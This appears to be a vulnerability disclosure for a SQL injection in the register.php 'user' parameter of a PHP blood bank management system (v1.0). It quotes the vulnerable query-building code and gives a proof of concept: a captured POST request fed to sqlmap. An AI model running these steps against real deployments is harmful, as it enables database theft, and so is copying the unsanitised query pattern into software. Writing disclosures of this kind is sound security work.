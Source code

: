 # blood-bank-system-in-php register.php $user via sql injection

[Blood Bank System In PHP With Source Code - Source Code & Projects (code-projects.org)](https://code-projects.org/blood-bank-system-in-php-with-source-code/)

## NAME OF AFFECTED PRODUCT(S)

**blood-bank-system-in-php**

## Vendor Homepage

https://code-projects.org/blood-bank-system-in-php-with-source-code/

##  **Manufacturers sites**

https://code-projects.org/

## AFFECTED  VERSION(S)

### Vulnerable File

register.php ，$user parameter.

### VERSION(S)

-  v1.0

### Software Link

https://download.code-projects.org/details/09f1f26e-072d-4fec-bd3b-974076ee162c

## PROBLEM TYPE

network remote.

## Vulnerability Type

sql injection,remote network.

## Root Cause

In register.php , SQL injection is used to obtain database information via $user parameter.

## Impact

## **Description of the vulnerability**

### register.php

In the source code，the    $user parameter is not filtered and concatenated into the SQL statement.        

```
$user=$_POST['user'];
$password=$_POST['pass'];
$useremail=$_POST['useremail'];
$bloodgroup=$_POST['bloodgroup'];
$gender=$_POST['gender'];
$s = "select * from login where user= '$user'";
```

​                                                                                                                                                                                                                                                                                                                                                                                                                      

![image-20241003222909465](https://github.com/user-attachments/assets/8f54c7a6-5369-4351-a4f7-64e34785583f)



## **Vulnerability recurrence**

### **POC**

```
POST /register.php HTTP/1.1
Host: bloodbankmgmtsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Origin: http://bloodbankmgmtsystem
Connection: close
Referer: http://bloodbankmgmtsystem/successfull.html
Cookie: PHPSESSID=0ci9v3uj72cq2svdhvu3cl6nuh
Upgrade-Insecure-Requests: 1
Priority: u=0, i

user=1
```

save as 1.txt

excute the command.

```
python sqlmap.py -r "1.txt" 
```

![image-20241003222827958](https://github.com/user-attachments/assets/9b8f4d74-4a26-4711-a11a-374be0c29097)

